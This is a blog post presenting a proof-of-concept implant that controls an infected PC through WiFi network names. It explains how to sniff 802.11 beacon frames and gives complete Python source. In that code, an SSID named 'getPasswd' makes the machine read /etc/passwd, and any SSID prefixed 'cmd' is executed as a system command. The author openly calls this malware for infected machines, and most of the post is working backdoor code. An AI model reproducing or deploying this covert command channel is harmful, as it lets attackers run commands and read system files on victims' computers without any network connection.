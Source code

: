 ```yaml
---
layout: post
title:  "Controlling a PC using Wifi SSID's"
date:   2017-04-6 12:18:29 +0200
categories: blog
---
```

# Controlling a PC using Wifi SSID's

There are different forms of controlling a system without connection with Internet or other network. In this PiC we will use the name of the wireless network, the SSIDs.

If infect a system only we will need that this have a wireless card, we will listen the network's names and if the malware find a name that it identify as a command, it will execute this command in the infected machine.

Let's do it, in first place we will need listen and parse the name of the wireless networks. For this task I will use the library socket, with this library is very easy parse a network packets. You can use scapy for this task also is very easy of use.



```python
import socket
sock = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0003))
sock.bind(("mon0", 0x0003))
while True:
        pkt = sock.recvfrom(2048)[0]
        if pkt[26] == "\x80" :
                if pkt[36:42] and ord(pkt[63]) > 0:
                        ssid=pkt[64:64 +ord(pkt[63])]
                        mac=pkt[36:42].encode('hex')
                        print("MAC:{0} SSID:{1}".format(mac,ssid))
```

We will need capture the Beacon frames, this type is the ID 0b1000 or 0x80 according the [IEEE 802.11 standard](http://grouper.ieee.org/groups/802/11/).

## Quick reference guide

|Type|SubtypeType(bin)|Description|
|:--:|:--:|:---------:|
|mgmt|0000|Association Request|
|mgmt|0001|Association Response|
|mgmt|0010|Reassociation Request|
|mgmt|0011|Reassociation Response|
|mgmt|0100|Probe Request|
|mgmt|0101|Probe Response|
|mgmt|1000|Beacon|
|mgmt|1001|ATIM|
|mgmt|1010|Disassociation|
|mgmt|1011|Authentication|
|mgmt|1100|Deauthentication|

## Code

Now, we already know obtain the network name, the next task is implement different commands.
This is the complete code of this PoC:
```python
#!/usr/bin/env python
import argparse
import subprocess
import socket
sock = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0003))

parser = argparse.ArgumentParser()
parser.add_argument('-v', action='count', dest='verbose')
parser.add_argument('-i', dest='interface')
args=parser.parse_args()
sock.bind((args.interface, 0x0003))
while True:
        pkt = sock.recvfrom(2048)[0]
        if pkt[26] == "\x80" :
                if pkt[36:42] and ord(pkt[63]) > 0:
                        ssid=pkt[64:64 +ord(pkt[63])]
                        mac=pkt[36:42].encode('hex')
                        if ssid=="getPasswd":
                                out = subprocess.check_output(['cat','/etc/passwd'])
                                if args.verbose==1:
                                        print out
                        if ssid[0:3]=="cmd":
                                out = subprocess.check_output([ssid[3:]])
                                if args.verbose==1:
                                        print out
			if args.verbose==2:
                                print "SSID: %s  AP MAC: %s" % (pkt[64:64 +ord(pkt[63])], pkt[36:42].encode('hex'))
```

Regards!
